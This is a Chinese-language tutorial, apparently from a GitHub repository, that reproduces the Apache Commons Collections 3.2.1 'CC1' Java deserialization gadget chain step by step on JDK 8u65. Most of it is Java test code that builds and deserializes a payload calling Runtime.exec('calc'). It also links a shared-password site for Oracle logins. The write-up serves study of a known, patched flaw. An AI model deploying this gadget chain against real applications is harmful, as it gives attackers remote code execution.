








## About

本文是关于**Apache commons collections**反序列漏洞利用链的过程复现

## Environment

| JDK version | jdk-8u65-windows-x64 |
| --- | --- |
| Common collections version | 3.2.1 |

- [Java Archive Downloads - Java SE 8](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html)

- [oracle.com passwords - BugMeNot.](https://bugmenot.com/view/oracle.com) (如果下载JDK需要登录，这里是免费的账户)

- [jdk8u/jdk8u/jdk: af660750b2f4](https://hg.openjdk.org/jdk8u/jdk8u/jdk/rev/af660750b2f4) (源代码下载)

**Maven**导入**3.2.1**版本

```
  <dependency>
    <groupId>commons-collections</groupId>
    <artifactId>commons-collections</artifactId>
    <version>3.2.1</version>
  </dependency>
```

**CC1**链在**JDK 8u71**及之后的版本中被修复

## InvokerTransformer#transform

**CC1**链造成的原因是**Transformer**的**transform**方法



可以看到**transform**方法使用`input.getClass()`获取输入对象的类，然后通过`cls.getMethod(iMethodName, iParamTypes)`获取类中名为`iMethodName`且参数类型为`iParamTypes`的方法。

其中`iMethodName`等参数在实例化的时候就以实参的形式指定了，通过直接实例化**InvokerTransformer**，并且让**transform**的传入对象为**Runtime**即可成功调用到**exec**，具体如下代码

```
import org.apache.commons.collections.functors.InvokerTransformer;
import org.junit.Test;

import java.io.IOException;

public class CC1TEST {

    @Test
    public void Test() throws IOException {

        InvokerTransformer invokerTransformer= new InvokerTransformer(
                "exec", 
                new Class[]{String.class}, 
                new Object[]{"calc"});
        invokerTransformer.transform(Runtime.getRuntime());
    }
}
```

## TransformedMap#checkSetValue

查找**transform**的实现，找到**TransformedMap**里有一个方法，但是前缀是**protected**，也就无法外部调用



继续向上寻找，发现另一个函数`setValue`通过外部传参间接调用了**checkSetValue**，并且可以显式调用



在**TransformedMap**的**decorate**中可以看到是一个静态函数，并且可以传入参数生成一个新的实例。



由于**TransformedMap**是继承于**AbstractInputCheckedMapDecorator**，因此可以直接外部调用**setvalue**函数。**Map.Entry.setValue**是一个专门用于更新映射中值的方法。



现在的思路就是：通过使用**TransformedMap**的**decorate**静态函数生成一个**TransformedMap**的对象，并且提升为父类**Map**，因为**setValue**只在**Map**类中有，子类中并没有定义。通过这个对象的**checkSetValue**方法到**setValue**方法，最后到**transform**方法（其中的参数是相同的）。

```
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import org.junit.Test;

import java.util.HashMap;
import java.util.Map;

public class CC1TEST {

    @Test
    public void Test() {

        InvokerTransformer invokerTransformer = new InvokerTransformer(
                "exec",
                new Class[]{String.class},
                new Object[]{"calc"});
        HashMap<Object, Object> map = new HashMap<>();
        map.put("a", "b");

        Map<Object,Object> decorated = TransformedMap.decorate(map, null, invokerTransformer);

        decorated.entrySet().forEach(entry -> {
           entry.setValue(Runtime.getRuntime()) ;
        });

    }
}
```

## AnnotationInvocationHandler

这个类实现了**Serializable**接口，因此可以被序列化

并且在其**readObject**方法中存在**setValue**方法的调用

因此这个类可以作为反序列化的起点



但是它不能被显式创建实例，只能使用反射进行创建

```
Class<?> aClass = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor<?> declaredConstructor = aClass.getDeclaredConstructor(Class.class, Map.class);
declaredConstructor.setAccessible(true);
Object o = declaredConstructor.newInstance(Target.class, decorated);
```

回到**readObjcet**方法，执行到**setValue**方法之前有两个判断，绕过也非常简单，只需要传入的**map**中有键值对就行

```
private void readObject(java.io.ObjectInputStream s)
    throws java.io.IOException, ClassNotFoundException {
    s.defaultReadObject();
    // Check to make sure that types have not evolved incompatibly
    AnnotationType annotationType = null;
    try {
        annotationType = AnnotationType.getInstance(type);
    } catch(IllegalArgumentException e) {
        // Class is no longer an annotation type; time to punch out
        throw new java.io.InvalidObjectException("Non-annotation type in annotation serial stream");
    }
    Map<String, Class<?>> memberTypes = annotationType.memberTypes();
    // If there are annotation members without values, that
    // situation is handled by the invoke method.
    for (Map.Entry<String, Object> memberValue : memberValues.entrySet()) {
        String name = memberValue.getKey();
        Class<?> memberType = memberTypes.get(name);
        if (memberType != null) {  // i.e. member still exists
            Object value = memberValue.getValue();
            if (!(memberType.isInstance(value) ||
                  value instanceof ExceptionProxy)) {
                memberValue.setValue(
                    new AnnotationTypeMismatchExceptionProxy(
                        value.getClass() + "[" + value + "]").setMember(
                            annotationType.members().get(name)));
            }
        }
    }
}
```

但是，就算绕过了前面的判断，这里的**memberValue**的**setValue**方法参数仍然是不可控的，也就无法设置参数为**Runtime**

## ChainedTransformer

可以看到整个类的**transform**方法是成链式结构的，上一个经过**transform**的对象会作为下一轮的参数



因此可以将**decorate**的参数指定为一个**ChainedTransformer**，当其触发**setValue**的时候其中的对象会一层一层的传递，直到**Runtime**的**exec**方法被执行

因此代码结构可以如下，由于**Runtime**是无法被直接实例化的，因此这里链条的第一个是使用的**ConstantTransformer**，这个类的**transform**方法输入和输出的一致的，可以直接获取到**Runtime**的**Class**。

之后使用**InvokerTransformer**触发**getMethod**方法，随后无参数调用**invoke**获取到**getRuntime**从而进行实例化得到一个**Runtime**对象。

最后经过这个实例化对象调用**exec**方法，进行命令执行

```
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import org.junit.Test;

import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.Map;

public class CC1TEST {

    @Test
    public void Test() throws Exception {

        ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class}, new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke", new Class[]{Object.class,Object[].class}, new Object[]{null,null }),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        });

        HashMap<Object, Object> map = new HashMap<>();
        map.put("value", "value");

        Map<Object,Object> decorated = TransformedMap.decorate(map, null, chainedTransformer);

        Class<?> aClass = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> declaredConstructor = aClass.getDeclaredConstructor(Class.class, Map.class);
        declaredConstructor.setAccessible(true);
        Object o = declaredConstructor.newInstance(Target.class, decorated);

        serialize(o);
        deserialize();

    }

    public void serialize(Object o) throws Exception {
        try (ObjectOutputStream oos = new ObjectOutputStream(Files.newOutputStream(Paths.get("ser.ser")))) {
            oos.writeObject(o);
        }
    }

    public Object deserialize() throws Exception {
        try (ObjectInputStream ois = new ObjectInputStream(Files.newInputStream(Paths.get("ser.ser")))) {
            return ois.readObject();
        }
    }

}
```



**ChainedTransformer**里面简单化的思路就是👇

```
import org.junit.Test;

public class CC1TEST_2 {

    @Test
    public void test2() throws Exception {
        Object getRuntime = Runtime.class.getMethod("getRuntime").invoke(null);

        System.out.println(getRuntime instanceof Runtime); //true

        getRuntime.getClass().getMethod("exec",String.class).invoke(getRuntime,"calc");

    }
}
```
